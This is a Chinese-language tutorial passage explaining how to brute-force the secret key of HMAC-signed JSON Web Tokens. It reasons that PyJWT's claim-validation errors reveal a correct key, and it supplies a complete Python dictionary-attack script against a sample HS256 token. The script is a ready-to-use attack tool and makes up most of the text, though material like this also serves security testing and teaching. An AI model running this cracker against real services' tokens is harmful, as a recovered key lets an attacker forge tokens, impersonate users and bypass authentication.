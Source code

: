 ## 暴力破解密钥
当 alg 指定 HMAC 类对称加密算法时，可以进行针对 key 的暴力破解

其核心原理即为 jwt 模块的 decode 验证模式，
## jwt.decode(jwt_json, verify=True, key='')
## 签名直接校验失败，则 key 为有效密钥；

因数据部分预定义字段错误：

jwt.exceptions.ExpiredSignatureError
jwt.exceptions.InvalidAudienceError
jwt.exceptions.InvalidIssuedAtError
jwt.exceptions.InvalidIssuedAtError
jwt.exceptions.ImmatureSignatureError
导致校验失败，说明并非密钥错误导致，则 key 也为有效密钥；

因密钥错误
jwt.exceptions.InvalidSignatureError
导致校验失败，则 key 为无效密钥；

因其他原因（如，jwt 字符串格式错误）导致校验失败，无法验证当前 key 是否有效。
综上分析，构造字典爆破脚本：
```python
import jwt

jwt_json='eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJpZCI6MX0.S5iudTeUBkKZa2Ah_MR_JdAsSBUFrnF3kn1FL-Cvsks'
with open('dict.txt',encoding='utf-8') as f:
        for line in f:
            key = line.strip()
            try:
                jwt.decode(jwt_json,verify=True,key=key,algorithm='HS256')
                print('found key! --> ' +  key)
                break
            except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
                print('found key! --> ' +  key)
                break
            except(jwt.exceptions.InvalidSignatureError):
                print('verify key! -->' + key)
                continue
        else:
            print("key not found!")
 ```